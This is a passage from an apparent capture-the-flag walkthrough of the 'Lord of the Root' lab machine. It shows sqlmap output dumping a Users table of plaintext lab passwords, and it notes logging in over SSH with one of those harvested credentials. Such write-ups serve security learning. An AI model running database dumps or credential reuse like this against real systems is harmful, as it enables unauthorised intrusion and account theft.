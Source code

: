 ```jsx
[04:30:00] [INFO] retrieved: aragorn
[04:30:22] [INFO] retrieved: 4
[04:30:27] [INFO] retrieved: AndMyBow
[04:31:00] [INFO] retrieved: legolas
[04:31:25] [INFO] retrieved: 5
[04:31:28] [INFO] retrieved: AndMyAxe
[04:32:00] [INFO] retrieved: gimli
Database: Webapp
Table: Users
[5 entries]
**+------+----------+------------------+
| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   |
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |
+------+----------+------------------+**

[04:32:16] [INFO] table 'Webapp.Users' dumped to CSV file '/root/.sqlmap/output/192.168.122.146/dump/Webapp/Users.csv'
[04:32:16] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.sqlmap/output/results-08252020_0423am.csv'
[04:32:16] [WARNING] you haven't updated sqlmap for more than 85 days!!!

[*] ending @ 04:32:16 /2020-08-25/

root@kali:~#
```

Using smeagol:MyPreciousR00t to login through ssh

![Lord%20of%20the%20root%208b49d65873a6464cb184447ee57a6e18/Untitled%2013.png](Lord%20of%20the%20root%208b49d65873a6464cb184447ee57a6e18/Untitled%2013.png)
